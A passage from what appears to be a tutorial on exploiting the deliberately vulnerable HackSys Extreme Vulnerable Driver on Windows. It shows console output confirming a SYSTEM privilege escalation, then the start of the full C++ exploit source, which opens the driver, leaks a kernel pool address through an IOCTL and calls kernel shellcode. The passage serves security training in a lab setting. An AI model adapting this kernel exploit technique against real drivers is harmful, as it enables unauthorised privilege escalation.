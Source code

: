 ```
nt authority\system

C:\Users\hevd\source\repos\HEVDExploit\HEVDExploit>exit
Done!

C:\Users\hevd\source\repos\HEVDExploit\x64\Debug\HEVDExploit.exe (process 10808) exited with code 0 (0x0).
```

Which means it worked, and we successfully escalated privileges!

### Putting It All Together

For reference, we include the full code for the above exploit.

Contents of the `main.cpp` file:

```C++
#include "Windows.h"

#include <cstdio>
#include <cstdint>
#include <cstdlib>

extern "C" {
    extern uint8_t* get_kernel_shellcode_address(void);
    extern uint32_t get_kernel_shellcode_size(void);
};

int main()
{
    printf("Running whoami (should return non-privileged user)...\n");
    system("whoami");
    printf("Done!\n");

    printf("Opening device driver... ");

    HANDLE hevdDevice = CreateFileA(
        "\\\\.\\HackSysExtremeVulnerableDriver",    // lpFileName
        FILE_SHARE_READ | FILE_SHARE_WRITE,         // dwDesiredAccess
        0,                                          // dwShareMode
        NULL,                                       // lpSecurityAttributes
        OPEN_EXISTING,                              // dwCreationDisposition
        0,                                          // dwFlagsAndAttributes
        NULL                                        // hTemplateFile
    );

    if (hevdDevice == INVALID_HANDLE_VALUE) {
        fprintf(stderr, "Error opening device!\n");
        return -1;
    }

    printf("Done! Device driver handle is %p\n", hevdDevice);

    uint8_t* non_paged_pool = 0x0;
    
    {
        const uint32_t IOCTL_MEM_DISCLOSURE = 0x22203f;
        const uint32_t buffer_size = 0x400;
        uint8_t buffer[buffer_size];

        printf("Leaking non-paged pool memory address... ");

        DeviceIoControl(
            hevdDevice,
```